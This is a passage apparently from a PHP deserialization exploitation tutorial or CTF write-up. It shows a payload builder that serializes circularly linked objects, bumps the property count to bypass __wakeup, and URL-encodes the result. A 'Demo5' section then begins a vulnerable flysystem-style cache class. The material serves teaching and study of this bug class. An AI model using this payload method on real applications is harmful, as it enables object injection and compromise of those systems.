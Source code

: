 ```php
}

$t = new A();
$s = new B();
$s->a = $t;
$t->a = $s;
$p = serialize($t);
$p = str_replace('A":3', 'A":4', $p);
echo urlencode($p);

```



# **Demo5**

```
<?php

error_reporting(0);

 

class A {

 

  protected $store;

 

  protected $key;

 

  protected $expire;

 

  public function __construct($store, $key = 'flysystem', $expire = null) {

    $this->key = $key;

    $this->store = $store;

    $this->expire = $expire;

  }

 

  public function cleanContents(array $contents) {

    $cachedProperties = array_flip([

      'path', 'dirname', 'basename', 'extension', 'filename',

      'size', 'mimetype', 'visibility', 'timestamp', 'type',

    ]);

 

```